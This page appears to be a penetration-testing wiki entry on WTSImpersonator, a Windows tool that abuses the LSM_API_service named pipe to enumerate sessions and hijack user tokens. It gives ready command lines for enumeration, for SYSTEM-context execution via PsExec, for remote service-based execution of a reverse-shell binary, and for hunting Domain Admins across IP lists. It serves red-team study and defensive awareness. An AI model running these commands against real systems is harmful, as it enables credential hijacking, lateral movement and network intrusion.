 




The **WTS Impersonator** tool exploits the **"\\pipe\LSM_API_service"** RPC Named pipe to stealthily enumerate logged-in users and hijack their tokens, bypassing traditional Token Impersonation techniques. This approach facilitates seamless lateral movements within networks. The innovation behind this technique is credited to **Omri Baso, whose work is accessible on [GitHub](https://github.com/OmriBaso/WTSImpersonator)**.

### Core Functionality
The tool operates through a sequence of API calls:
```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```

### Key Modules and Usage
- **Enumerating Users**: Local and remote user enumeration is possible with the tool, using commands for either scenario:
  - Locally:
    ```powershell
    .\WTSImpersonator.exe -m enum
    ```
  - Remotely, by specifying an IP address or hostname:
    ```powershell  
    .\WTSImpersonator.exe -m enum -s 192.168.40.131  
    ```

- **Executing Commands**: The `exec` and `exec-remote` modules require a **Service** context to function. Local execution simply needs the WTSImpersonator executable and a command:
  - Example for local command execution:
    ```powershell
    .\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe  
    ```
  - PsExec64.exe can be used to gain a service context:
    ```powershell
    .\PsExec64.exe -accepteula -s cmd.exe
    ```

- **Remote Command Execution**: Involves creating and installing a service remotely similar to PsExec.exe, allowing execution with appropriate permissions.
  - Example of remote execution:
    ```powershell
    .\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
    ```

- **User Hunting Module**: Targets specific users across multiple machines, executing code under their credentials. This is especially useful for targeting Domain Admins with local admin rights on several systems.
  - Usage example:
    ```powershell
    .\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe 
    ```




